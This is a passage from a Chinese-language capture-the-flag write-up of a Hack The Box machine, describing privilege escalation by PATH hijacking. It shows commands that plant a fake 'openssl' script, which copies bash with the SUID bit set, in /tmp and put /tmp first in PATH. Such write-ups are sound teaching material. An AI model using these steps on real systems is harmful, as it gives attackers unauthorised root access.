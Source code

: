 输出很长，从中可以看到生成了各种密钥和文件。如果我们切换回 pki 框上的另一个会话，我们会在 pspy64 中看到一些有趣的东西:

![](img/883f787aeca1faee452e12d6fc9f6a9c.png)

Pspy64 输出

# 路径开发

执行的一些命令没有获得二进制文件的完整路径。从上面我们可以看到 mktemp、openssl 和 mv 都被直接调用，这意味着环境变量中的路径被用来查找它们。这是一个众所周知的升级路径，这里有一个很好的解释，我在另一个名为[预览](https://www.hackthebox.com/home/machines/profile/373)的框中使用了一个。

首先，我们在/tmp 文件夹中创建一个文件，该文件的名称是我们看到的一个命令的名称，但没有指定路径，我对这个命令使用的是 openssl。pki 盒子上没有文本编辑器，所以让我们在 Kali 上完成它，然后我们可以将 base64 复制到盒子上:

```
┌──(root💀kali)-[~/htb/static]
└─# echo "#\!/bin/bash                                                                                           
/bin/cp /bin/bash /tmp/bash
chmod u+s /tmp/bash" | base64          
IyEvYmluL2Jhc2gKL2Jpbi9jcCAvYmluL2Jhc2ggL3RtcC9iYXNoCmNobW9kIHUrcyAvdG1wL2Jhc2gK
```

现在将它粘贴到 box 上，解码回多行 bash 脚本，并输出到一个名为 openssl 的文件:

```
www-data@pki:/tmp$ echo "IyEvYmluL2Jhc2gKL2Jpbi9jcCAvYmluL2Jhc2ggL3RtcC9iYXNoCmNobW9kIHUrcyAvdG1wL2Jhc2gK" | base64 -d > openssl
www-data@pki:/tmp$ ls -lsa
ls -lsa
   4 -rwxr-xr-x 1 www-data www-data      60 Nov  6 19:40 openssl
```

将我们的/tmp 路径添加到环境$PATH 变量的开头:

```
www-data@pki:/tmp$ export PATH=/tmp:$PATH
www-data@pki:/tmp$ echo $PATH  
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

# 根标志
